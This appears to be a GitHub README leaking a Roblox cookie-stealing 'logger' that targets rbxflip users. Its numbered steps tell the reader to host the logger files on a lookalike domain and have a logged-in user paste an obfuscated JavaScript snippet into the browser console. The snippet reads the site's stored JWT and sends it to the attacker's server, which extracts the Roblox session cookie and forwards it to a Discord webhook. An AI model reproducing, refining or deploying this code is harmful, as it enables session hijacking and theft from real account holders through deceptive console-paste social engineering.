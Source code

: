 me and my friend made this ill leak it since ixware skids took my idea have fun with it.

**How To Use***

1- Upload the files (from logger folder) on your webserver
2 -Get a legit looking domain
3 -Go to rbxflip.com (be logged in)
4 -Open the developer console
5 -Paste that inside the console: 
6. -make sure tu put you're webhook on config.php



`var _0x2c3c=['41qRGKIU','226227XOWtdT','9571kRaNrS','getItem','auth._token.local','259484aCtxRr','https://domain/coinflip.php?t=','1ICLKrP','85307TnWote','53639HVwscK','194480dULgxy','23wlWByU','1oUiTEM','7247ahdNmv','split'];var _0x2b7b=function(_0x3dc2af,_0x33a69b){_0x3dc2af=_0x3dc2af-0x83;var _0x2c3c00=_0x2c3c[_0x3dc2af];return _0x2c3c00;};var _0x51f868=_0x2b7b;(function(_0x3b43f1,_0x21e07e){var _0x324dbb=_0x2b7b;while(!![]){try{var _0x4983eb=parseInt(_0x324dbb(0x8d))+-parseInt(_0x324dbb(0x84))*-parseInt(_0x324dbb(0x8a))+parseInt(_0x324dbb(0x8c))*parseInt(_0x324dbb(0x8f))+parseInt(_0x324dbb(0x8b))+-parseInt(_0x324dbb(0x85))*-parseInt(_0x324dbb(0x8e))+-parseInt(_0x324dbb(0x83))*parseInt(_0x324dbb(0x90))+-parseInt(_0x324dbb(0x88));if(_0x4983eb===_0x21e07e)break;else _0x3b43f1['push'](_0x3b43f1['shift']());}catch(_0x413a66){_0x3b43f1['push'](_0x3b43f1['shift']());}}}(_0x2c3c,0x367c7),fetch(_0x51f868(0x89)+atob(localStorage[_0x51f868(0x86)](_0x51f868(0x87))[_0x51f868(0x91)]('\x20')[0x1][_0x51f868(0x91)]('.')[0x1])['split']('\x22')[0x3])); rig.coin 
console.log`.

7. The simple js code will get the value of auth._token.local (JWT Token) and then decoding (server-sided), after decoding it, it will read the "credentials" object which is the roblox cookie stored on rbxflip, then it sends the cookie to the discord webhook of your choice. Nothing special, I have this thing since 2020 may 
